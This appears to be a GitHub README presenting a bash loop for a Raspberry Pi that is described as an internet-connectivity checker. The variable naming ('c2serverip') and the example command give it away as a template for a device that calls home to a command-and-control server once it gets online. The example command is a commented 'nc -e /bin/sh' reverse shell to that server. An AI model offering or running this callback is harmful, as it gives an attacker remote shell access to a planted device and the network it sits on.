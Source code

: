 
# An Easy way to check if you have access to the internet at all time.

This infinite loop can be added to your rasberryPi to run once the PI is powered On.   
It keeps checking if it is connected, and as it finds internet, it run some predefined commands.

This can run as a standalone code or part of another code.

```bash
#!/bin/bash
connection="offline"
c2serverip=8.8.8.8
retry=5

while true; do
ping -c 1 $c2serverip 2>&1 >/dev/null

if [ $? -eq 0 ]
then
        if [ $connection == "offline" ]
        then
                connection="online"
                echo "PUT your code here"
	    #Put any code here to run once you are online.
        # e.g.
        #nc -e /bin/sh $c2serverip 80 
        else
                echo "already online retring in "$retry "seconds"
                sleep $retry
        fi

else
        echo "we are offline"
        connection="offline"
fi
done
```